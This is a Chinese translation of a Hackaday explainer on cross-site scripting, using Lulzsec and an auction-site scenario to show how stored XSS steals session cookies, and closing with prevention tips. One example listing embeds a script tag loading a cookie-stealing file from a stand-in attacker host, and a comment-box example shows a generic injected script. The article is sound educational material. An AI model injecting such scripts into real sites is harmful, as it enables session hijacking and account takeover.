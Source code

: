 # 黑暗艺术:跨站脚本

> 原文:[https://hack aday . com/2016/03/23/the-dark-arts-cross-site-scripting/](https://hackaday.com/2016/03/23/the-dark-arts-cross-site-scripting/)

2011 年，一群被称为 Lulzsec 的黑客连续两个月疯狂入侵数十个网站，包括福克斯、PBS、联邦调查局、索尼和其他许多公司的网站。该组织最终被抓获，并被问及他们是如何进行如此多的黑客攻击的。人们会发现，在现实生活中，没有一个黑客真正认识彼此。他们甚至不知道对方的真名。他们只在隐藏在互联网黑暗角落的隐蔽聊天室里交谈，并以各自的化名互相认识——[特弗洛]、[萨布]、[托皮里]、[凯拉]等等。每个人都有自己的特殊技能，当他们结合在一起时，他们是一个非常有效的黑客团队。
![](../Images/f6ddc6ceb4b329a71b00d5f73c6a4c16.png)

据发现，他们使用了三种主要的方法来破解网站——SQL 注入、跨站脚本和远程文件包含。我们在本系列的[前一篇文章](https://hackaday.com/2016/03/09/the-dark-arts-sql-injection-and-secure-passwords/)中对 SQL 注入攻击的工作原理做了基本概述。在本文中，我们将对跨站点脚本，或简称为 XSS，做同样的事情。从潜在数据丢失的角度来看，SQL 注入被称为人类历史上最大的漏洞。跨站点脚本紧随其后。让我们来看看它是如何工作的。

## XSS 情景

让我们假设你想在你最喜欢的买卖拍卖网站上出售一台 Arduino。首先要做的是登录服务器。在此过程中，来自该服务器的 cookie 将存储在您的计算机上。每当你在浏览器中加载该网站时，它会将该 cookie 与你的 HTTP 请求一起发送到服务器，让它知道是你，使你不必每次访问都登录。正是这块饼干将成为我们攻击的目标。

然后你会打开某种类型的窗口，允许你输入对你的 Arduino 的描述，潜在的买家可以阅读。让我们想象你说了这样的话:

```
Arduino Uno in perfect condition. New in Box. $15 plus shipping.
```

您将保存您的描述，它将存储在服务器的数据库中。到目前为止，我们的场景没有任何异常或可疑之处。但是让我们来看看当一个潜在的买家登录到服务器时会发生什么。他们需要一台 Arduino，并看到您刚刚发布的广告。当他们加载你的帖子时，他们的浏览器会看到什么？

```
Arduino Uno in perfect condition. <b>New in Box</b>. $15 plus shipping.
```

![xss_02](../Images/33c162fe89e3d601481a64dd616f0c87.png)

[Source](https://security.googleblog.com/2011/05/website-security-for-webmasters.html)

不管你是否意识到，你只是在他们的电脑上运行 HTML 代码(以**粗体**标签的形式)，尽管这些无害的代码做了买卖双方都想做的事情——突出产品的特定卖点。但是你还能运行什么代码呢？你能运行代码来做一些买家肯定*不*想要的事情吗？可以在任何一台加载 post 的计算机上运行的代码？你不仅应该能够看到我们的发展方向，你还应该能够看到问题的范围以及它有多危险。

现在让我们想象一个 Lulzsec 黑客正在寻找一些急需的 lulz。他看到你的帖子，几乎立刻就意识到你可以在他的电脑上运行 HTML 代码。然后他在网站上做了一个销售广告:

```
Lot of 25 Raspberry Pi Zeros - New in Box - < script src="http://lulz.com/email_me_your_cookie.js" ></script> - $100, free shipping.
```

现在，只要有人打开黑客的广告，脚本部分就会加载恶意的场外代码，并窃取受害者的会话 cookie。通常，只有 cookie 中指定的网站可以访问该 cookie。这里，由于恶意代码是从拍卖网站的服务器提供的，受害者的浏览器发送拍卖网站的 cookie 没有问题。现在，黑客可以将 cookie 加载到他的浏览器中来模拟受害者，从而允许黑客访问受害者可以访问的所有内容。

## 无尽的机会

只要稍加想象，您就可以看到跨站点脚本攻击可以达到的程度。您可以设想一种更有针对性的攻击，黑客试图通过利用有缺陷的竞争进入流程进入像英特尔这样的大公司。黑客访问 Intel Edison 竞赛参赛页面，发现他可以运行应用提交表单中的代码。他知道英特尔内部网上有人可能会阅读他的应用程序，并猜测这将通过浏览器完成。一旦不知情的英特尔员工打开他的入口，他的 XSS 攻击就会开始。

这种攻击可以在任何允许包含代码在另一台计算机上执行的用户输入中运行。以评论框为例。在评论框中输入某种类型的`< script >evil</script>`,它会加载到每一台加载该页面的电脑上。正如我们在本系列的[上一篇文章](http://hackaday.com/2016/03/09/the-dark-arts-sql-injection-and-secure-passwords/)的开头所讨论的，Samy Kamkar 使用了类似的技术来完成他著名的 Myspace 蠕虫。XSS 一度甚至可以用[图像](http://kestas.kuliukas.com/JavaScriptImage/)来完成。

## 防止 XSS 袭击

与基于 SQLi 的攻击一样，在这个时代，几乎所有的网站开发人员都知道 XSS，并采取积极的措施来防止它。一种预防措施是验证输入。试图在大多数不应该运行 JavaScript 的应用程序中运行 JavaScript 不仅会给你一个错误，而且很可能会将你的帐户标记为不怀好意。

![xss_03](../Images/cd4596c2eb525df2bf9c9f7345db8a92.png)

[Source](https://www.tinfoilsecurity.com/blog/hackers-think-cookies-are-tasty-too)

你可以做的一件事就是使用所谓的[沙盒浏览器](http://www.howtogeek.com/169139/sandboxes-explained-how-theyre-already-protecting-you-and-how-to-sandbox-any-program/)来保护自己免受这种攻击。这将在浏览器中运行的代码保存在一个“盒子”中，并保证计算机其他部分的安全。大多数现代浏览器都内置了这项技术。更激烈的措施是完全禁止 JavaScript 在你的电脑上运行。

这里有人比我更了解这类黑客技术。我希望让普通的硬件黑客对 XSS 及其工作原理有一个基本的了解。我们欢迎那些对跨站点脚本和其他网站黑客技术有更深入了解的人的评论，这将有助于加深每个人对这些重要主题的理解。

**来源**

[XSS Flash 动画 1](https://www.virtualforge.com/vmovie/xss_lesson_1/xss_selling_platform_v1.0.html)

[XSS Flash 动画 2](https://www.virtualforge.com/vmovie/xss_lesson_2/xss_selling_platform_v2.0.html)